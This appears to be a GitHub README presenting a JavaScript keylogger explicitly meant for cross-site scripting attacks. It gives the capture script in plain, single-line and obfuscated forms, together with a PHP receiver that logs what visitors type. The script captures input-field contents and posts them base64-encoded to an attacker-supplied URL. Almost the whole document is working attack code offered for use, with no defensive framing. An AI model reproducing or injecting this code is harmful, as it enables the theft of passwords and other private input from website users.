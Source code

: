 JavaScript Keylogger to be used in XSS attacks
===

The script creates an event to detect the insertion of text in each text field of type "input" and sends the written content to the specified server that will have the second script called "receiver.php" running.

## JavaScript Source Code

*- Replace the `TYPE_THE_RECEIVER.PHP_URL_HERE` with the URL of the receiver script*

```javascript
var str = "";
var lastPress = Date.now();
var sent = true;
var declared = false;
var element = "";

var inputs = document.querySelectorAll('input');
for (i = 0; i < inputs.length; i++) {
    inputs[i].oninput = function(e) {
        str = e.target.value;
        element = e.target.outerHTML;
        sent = false;
        lastPress = Date.now();
    }
}

if (declared === false) {
    declared = true;
    var req = new XMLHttpRequest();
    window.setInterval(function() {
        if (sent === false && (Date.now() - lastPress) >= 2000) {
            sent = true;
            req.open("POST","TYPE_THE_RECEIVER.PHP_URL_HERE", true);
            req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
            req.send("str="+btoa(element+" -> "+str));
        }
    }, 500);
}
```

## JavaScript One Line Source Code

*- Replace the `TYPE_THE_RECEIVER.PHP_URL_HERE` with the URL of the receiver script*

```javascript
var str="";var lastPress=Date.now();var sent=true;var declared=false;var element="";var inputs=document.querySelectorAll('input');for(i=0;i<inputs.length;i++){inputs[i].oninput=function(e){str=e.target.value;element=e.target.outerHTML;sent=false;lastPress=Date.now()}}if(declared===false){declared=true;var req=new XMLHttpRequest();window.setInterval(function(){if(sent===false&&(Date.now()-lastPress)>=2000){sent=true;req.open("POST","TYPE_THE_RECEIVER.PHP_URL_HERE",true);req.setRequestHeader("Content-type","application/x-www-form-urlencoded");req.send("str="+btoa(element+" -> "+str))}},500)}
```

## JavaScript Ofuscated Source Code

*- Replace the `TYPE_THE_RECEIVER.PHP_URL_HERE` with the URL of the receiver script*

```javascript
var _0x46009d=_0x1166;(function(_0x5240e0,_0xa2a147){var _0x2b658c=_0x1166,_0x471711=_0x5240e0();while(!![]){try{var _0x2785e6=-parseInt(_0x2b658c(0xdc))/0x1*(parseInt(_0x2b658c(0xdf))/0x2)+-parseInt(_0x2b658c(0xd9))/0x3+-parseInt(_0x2b658c(0xdb))/0x4+-parseInt(_0x2b658c(0xe2))/0x5+-parseInt(_0x2b658c(0xeb))/0x6+parseInt(_0x2b658c(0xde))/0x7*(-parseInt(_0x2b658c(0xe5))/0x8)+parseInt(_0x2b658c(0xdd))/0x9;if(_0x2785e6===_0xa2a147)break;else _0x471711['push'](_0x471711['shift']());}catch(_0x5579f9){_0x471711['push'](_0x471711['shift']());}}}(_0x1591,0x629fd));var str='',lastPress=Date[_0x46009d(0xe8)](),sent=!![],declared=![],element='',inputs=document[_0x46009d(0xda)](_0x46009d(0xd5));for(i=0x0;i<inputs[_0x46009d(0xd8)];i++){inputs[i][_0x46009d(0xe3)]=function(_0x37b8b9){var _0x83cbfa=_0x46009d;str=_0x37b8b9[_0x83cbfa(0xe9)][_0x83cbfa(0xd6)],element=_0x37b8b9[_0x83cbfa(0xe9)][_0x83cbfa(0xd7)],sent=![],lastPress=Date[_0x83cbfa(0xe8)]();};}function _0x1591(){var _0x4419c4=['str=','open','2552125XAdCtV','oninput','setInterval','589216BpoPwR','TYPE_THE_RECEIVER.PHP_URL_HERE','application/x-www-form-urlencoded','now','target','send','2332524ujwUnQ','input','value','outerHTML','length','908493niXoGr','querySelectorAll','2406004KvWXcB','16739DEdXzG','28635201KKIsoe','56tjjgLb','46uBySdK'];_0x1591=function(){return _0x4419c4;};return _0x1591();}function _0x1166(_0x31ece7,_0x2e443e){var _0x159156=_0x1591();return _0x1166=function(_0x116607,_0x4a095d){_0x116607=_0x116607-0xd5;var _0x226807=_0x159156[_0x116607];return _0x226807;},_0x1166(_0x31ece7,_0x2e443e);}if(declared===![]){declared=!![];var req=new XMLHttpRequest();window[_0x46009d(0xe4)](function(){var _0x40b287=_0x46009d;sent===![]&&Date[_0x40b287(0xe8)]()-lastPress>=0x7d0&&(sent=!![],req[_0x40b287(0xe1)]('POST',_0x40b287(0xe6),!![]),req['setRequestHeader']('Content-type',_0x40b287(0xe7)),req[_0x40b287(0xea)](_0x40b287(0xe0)+btoa(element+'\x20->\x20'+str)));},0x1f4);}
```

## PHP Source Code

```php
<?php
    header('Access-Control-Allow-Origin: *');
    if (isset($_POST['str']) && strlen($_POST['str']) > 0) {
        file_put_contents("keylog.log", date('Y/m/d h:i:s')." | ".base64_decode($_POST['str']).PHP_EOL, FILE_APPEND);
    }
?>
```

## Log Output Example

```
2022/01/02 07:50:48 | <input type="text" id="inputTestId" name="inputTestName" class="inputTestClass"> -> This is a log example
```
